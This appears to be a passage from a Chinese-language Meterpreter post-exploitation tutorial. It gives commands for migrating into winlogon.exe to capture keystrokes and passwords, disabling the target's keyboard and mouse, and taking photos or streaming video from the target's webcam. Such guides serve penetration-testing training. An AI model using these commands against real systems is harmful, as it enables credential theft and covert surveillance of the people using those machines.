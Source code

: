 在下面的例子中
我们会将 `Meterpreter` 跟 `winlogon.exe` 绑定
并在登录进程中捕获键盘记录，以获得用户的密码

首先，我们需要使用 `ps` 命令查看目标设备中运行的进程
~~~bash
ps
~~~

使用 `getpid` 查看我们当前的进程 id
~~~bash
getpid
~~~

使用 `migrate + 目标进程ID` 命令来绑定目标进程 id
通过进程迁移后
当前的 `Meterpreter` 的 `pid` 已经和 `winlogon.exe` 一样了
~~~bash
migrate 123
~~~
这里绑定目标 `pid` 的时候，经常会断了 `shell`
进程迁移后会自动关闭原来 `Meterpreter` 进程
没有关闭可使用 `kill pid` 命令关闭进程。

或者使用自动迁移进程
~~~bash
run post/windows/manage/migrate
~~~
系统会自动寻找合适的进程然后迁移

#### 禁止目标主机使用键盘鼠标
~~~bash
uictl  disable(enable) keyboard  #禁止(允许)目标使用键盘
uictl  disable(enable) mouse     #禁止(允许)目标使用鼠标
~~~

#### 用目标主机摄像头拍照
~~~bash
webcam_list    #获取目标系统的摄像头列表
webcam_snap    #从指定的摄像头，拍摄照片
webcam_stream  #从指定的摄像头，开启视频
~~~

#### 常用扩展库介绍
> `Meterpreter` 中不仅有基本命令还有很多扩展库
> 下面就介绍一下常用的扩展库的查看方法

##### load/use 命令
~~~bash
load/use     #加载模块
load -l      #列出所有可用的扩展
load -help   #帮助；说明
~~~

命令 `load -l` 会列出所有可用的扩展

输入 `load` 后 `双击Tab键` 也可以列出可用扩展
